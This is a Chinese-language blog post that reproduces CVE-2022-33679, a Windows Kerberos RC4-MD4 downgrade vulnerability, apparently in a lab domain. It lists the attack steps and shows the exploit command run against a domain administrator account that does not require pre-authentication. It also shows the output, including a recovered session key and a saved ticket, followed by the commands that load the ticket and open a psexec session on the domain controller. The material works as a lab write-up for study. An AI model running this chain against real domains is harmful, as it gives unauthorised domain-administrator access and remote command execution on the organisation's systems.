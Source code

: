 ```yaml
---
title: "CVE-2022-33679复现"
date: 2023-10-07 08:30:23 +0800
category: 渗透测试
tags: [内网,渗透测试,域]
excerpt: CVE-2022-33679复现
---
```

## 复现过程

- 没有原理

  https://googleprojectzero.blogspot.com/2022/10/rc4-is-still-considered-harmful.html

  1. \1. 攻击者发送一个没有预授权的 AS-REQ 请求 RC4-MD4 密钥加密。如果用户不需要预授权，KDC 将发回一个 AS-REP，其中包含使用 RC4-MD4 加密的会话密钥等。
  2. \2. 根据加密数据的长度，计算出加密密钥开始前的0x15字节，只要总长度就可以猜到。可能需要发送适当长的主机地址来填充 ASN1 编码数据，以便将密钥对齐到合适的位置。
  3. \3. 根据计算出的ASN1数据和加密后的KDC-REP生成密钥流的前0x2D字节（密文中前0x18字节全为0）。
  4. \4. 使用密钥流加密 PA-ENC-TIMESTAMP 预认证缓冲区，如果仅使用 KerberosTime，则大小将恰好为 0x15 字节，即带有初始填充的 0x2D。
  5. \5. 在新的 AS-REQ 中发送加密的时间戳以验证密钥流是否正确。

  如果将客户端和 KDC 降级为使用 RC4-MD4，攻击者可以让 KDC 使用 RC4-MD4 会话密钥作为初始 TGT，它只有 40 位的熵，并且在关联的票证过期之前实现暴力破解，可为该用户发出任意服务票证的 TGS 请求。

- 设置域管账号`不要求 Kerberos 预身份验证`

- 域控机器名`DC`

```
python CVE-2022-33679.py -debug -dc-ip 域控IP s.com/administrator dc

......
[+] Server time (UTC): 2023-10-07 01:14:25
[+] Trying to connect to KDC at 10.10.10.146
[*] Byte 4: 89
[*] Recovered Session key: 467b61afa0ababababababababababab
[+] Trying to connect to KDC at 10.10.10.146
[*] Got TGS for dc
[*] Saving ticket in administrator_dc.ccache
```

```
export KRB5CCNAME=administrator_dc.ccache
```

```
psexec.py -k -no-pass -dc-ip 域控IP -target-ip 域控IP dc
```

